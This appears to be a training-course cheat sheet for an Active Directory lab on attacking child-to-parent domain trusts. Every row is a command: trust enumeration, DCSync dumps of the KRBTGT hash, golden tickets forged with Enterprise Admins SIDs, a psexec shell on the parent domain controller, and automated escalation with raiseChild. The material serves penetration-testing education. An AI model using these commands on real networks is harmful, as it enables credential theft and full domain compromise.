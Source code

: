 # Trust Relationships Child Parent Trusts

***

| Command                                                                                                                                                                                                                         | Description                                                                                                                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| `Import-Module activedirectory`                                                                                                                                                                                                 | Used to import the `Active Directory` module. Performed from a Windows-based host.                                                               |
| `Get-ADTrust -Filter *`                                                                                                                                                                                                         | PowerShell cmd-let used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.                         |
| `Get-DomainTrust`                                                                                                                                                                                                               | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host.                             |
| `Get-DomainTrustMapping`                                                                                                                                                                                                        | PowerView tool used to perform a domain trust mapping from a Windows-based host.                                                                 |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL \| select SamAccountName`                                                                                                                                                 | PowerView tools used to enumerate users in a target child domain from a Windows-based host.                                                      |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt`                                                                                                                                                                             | Uses Mimikatz to obtain the `KRBTGT` account's `NT Hash` from a Windows-based host.                                                              |
| `Get-DomainSID`                                                                                                                                                                                                                 | PowerView tool used to get the SID for a target child domain from a Windows-based host.                                                          |
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" \| select distinguishedname,objectsid`                                                                                                               | PowerView tool used to obtain the `Enterprise Admins` group's SID from a Windows-based host.                                                     |
| `ls \\academy-ea-dc01.inlanefreight.local\c$`                                                                                                                                                                                   | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host.                          |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses `Mimikatz` to create a `Golden Ticket` from a Windows-based host .                                                                          |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`            | Uses `Rubeus` to create a `Golden Ticket` from a Windows-based host.                                                                             |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm`                                                                                                                                                                        | Uses `Mimikatz` to perform a DCSync attack from a Windows-based host.                                                                            |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt`                                                                                                                      | Impacket tool used to perform a DCSync attack from a Linux-based host.                                                                           |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`                                                                                                                                                       | Impacket tool used to perform a `SID Brute forcing` attack from a Linux-based host.                                                              |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 \| grep "Domain SID"`                                                                                                                                  | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host.                                                       |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 \| grep -B12 "Enterprise Admins"`                                                                                                                        | Impacket tool used to retrieve the `SID` of a target Windows domain and attach it to the Enterprise Admin group's `RID` from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker`                | Impacket tool used to create a `Golden Ticket` from a Linux-based host.                                                                          |
| `export KRB5CCNAME=hacker.ccache`                                                                                                                                                                                               | Used to set the `KRB5CCNAME Environment Variable` from a Linux-based host.                                                                       |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5`                                                                                                          | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host.                                         |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`                                                                                                                                           | Impacket tool that automatically performs an attack that escalates from child to parent domain.                                                  |
